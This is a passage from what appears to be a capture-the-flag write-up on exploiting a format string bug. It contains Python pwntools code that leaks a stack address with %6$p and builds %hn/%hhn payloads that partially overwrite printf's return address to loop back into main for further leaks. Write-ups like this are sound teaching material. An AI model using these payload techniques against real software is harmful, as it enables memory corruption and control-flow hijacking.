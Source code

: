 Simply writes the byte `0x10` to the address specified by `pos`.
And partial overwriting the first byte of `rsp` to `0x10`, making the `rip` ends with `0x10` would then make it `main + 5`. Therefore, printf would return to `main+5` and we can then make more format string payloads.


And by doing this:
```py
payload = b"%6$p" # can only leak one address

p.recvuntil(b"give you one chance!!!\n")
p.sendline(payload)

leak = p.recvline().strip().decode()
leak = int(leak, 16)
rip_pos = leak - 0x120
print("Rip position: ", hex(rip_pos))
# partial overwriting the first byte of return address of `printf` to 0x10, changing it to return to main+5
bytes_to_write = rip_pos & 0xffff
payload = f"%{bytes_to_write-4}c%c%c%c%c%hn".encode()
written = bytes_to_write
bytes_to_write = padding(written, 0x10, 0x100) # max being 0x100 for hhn
pos = int(0x118 / 8 + 6)
payload += f"%{bytes_to_write}c%{pos}$hhn".encode()
```
3 times, we would be able to leak 3 addresses.

### 
